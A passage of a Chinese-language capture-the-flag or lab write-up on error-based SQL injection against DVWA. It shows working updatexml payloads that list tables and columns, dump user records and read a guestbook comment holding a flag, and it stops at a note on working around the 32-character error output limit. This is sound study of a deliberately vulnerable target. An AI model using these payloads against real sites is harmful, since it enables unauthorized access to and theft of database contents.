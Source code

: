 ```
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),0x7e),3)#
```

![image-20220501094854097](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501094854097.png)

数据库dvwa中有两张表：guestbook和users

注：如果查询表名的部分使用concat而不是group_concat则会报错：

![image-20220501095239869](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501095239869.png)

concat和group_concat的区别：

concat和group_concat都是用在sql语句中做拼接使用的，但是两者使用的方式不尽相同，concat是针对以行数据做的拼接，而group_concat是针对列做的数据拼接，且group_concat自动生成逗号。

**继续爆出users表的字段名：**

```
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),3)#
```

![image-20220501095855222](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501095855222.png)

**爆出数据库内容：**

```
1' and updatexml(1,concat(0x7e,(select group_concat(user_id,first_name,last_name) from users),0x7e),3)#
```

![image-20220501100320792](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501100320792.png)

使用id=3登陆，发现提示 **not_flag**

查询另一张表 guestbook：

```
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='guestbook'),0x7e),3)#
```

![image-20220501100646186](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501100646186.png)

```
1' and updatexml(1,concat(0x7e,(select comment from guestbook)),3)#
```

![image-20220501102051800](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501102051800.png)

神TM...只有一半的flag.....

查资料发现，Xpath报错只显示32位的内容，所以需要借用mid函数截取，从而显示32位之后的内容：

分段查询：1～32，33～64
